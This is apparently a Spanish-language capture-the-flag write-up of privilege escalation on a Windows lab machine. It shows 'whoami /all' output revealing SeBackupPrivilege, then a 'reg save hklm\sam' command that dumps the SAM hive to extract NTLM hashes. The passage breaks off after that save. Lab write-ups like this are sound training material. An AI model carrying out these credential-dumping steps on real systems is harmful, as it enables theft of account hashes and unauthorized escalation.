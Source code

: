 ## Escalada de Privilegios

### Revision de permisos y/o privilegios
Revisando los privilegios del usuario se pueden ver algunos que son interesantes.
~~~powershell
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\desktop> whoami /all

USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
~~~
Como se puede ver, tiene privilegios SeBackupPrivilege y SeRestorePrivilege, por lo que lo primero que se me viene a la mente es hacer un backup del sam y system para obtener los hashes ntlm del systema.
Probando lo dicho.
~~~

*Evil-WinRM* PS C:\> reg save hklm\sam C:\temp\sam.hive
The operation completed successfully.
~~~